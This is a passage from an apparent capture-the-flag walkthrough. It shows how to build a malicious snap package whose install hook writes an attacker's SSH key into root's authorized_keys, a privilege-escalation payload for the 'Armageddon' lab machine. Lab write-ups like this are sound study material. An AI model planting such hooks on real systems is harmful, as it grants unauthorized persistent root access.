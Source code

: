 I worked from an Ubuntu VM to make the snap, and just followed the
instructions. Installed the tools:



    sudo snap install --classic snapcraft



Now I'll find a directory to work out of, and run `snapcraft init`. It
creates a `snap` directory with `snapcraft.yaml` in it:



    df@buntu:~$ cd /tmp/
    df@buntu:/tmp$ mkdir dirty_snap
    df@buntu:/tmp$ cd dirty_snap/
    df@buntu:/tmp/dirty_snap$ snapcraft init
    Created snap/snapcraft.yaml.
    Go to https://docs.snapcraft.io/the-snapcraft-format/8337 for more information about the snapcraft.yaml format.



I'll prep the install hook:



    oxdf@parrot$ mkdir snap/hooks
    oxdf@parrot$ touch snap/hooks/install
    oxdf@parrot$ chmod a+x snap/hooks/install



The next step in the example they save to `install` a Bash script that
creates a user and adds it to the `sudoers` group. I'll have mine just
write a public SSH key into the root `authorized_keys` file:



    df@buntu:/tmp/dirty_snap$ cat > snap/hooks/install << "EOF"
    #!/bin/bash

    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    EOF



The next file, `snapcraft.yaml`, is just boilerplate. I'll just use the
example:



    df@buntu:/tmp/dirty_snap$ cat > snap/snapcraft.yaml << "EOF"
    name: armageddon
    version: '0.1' 
    summary: Empty snap, used for exploit
    description: |
        pwn armageddon                              
           
    grade: devel
    confinement: devmode
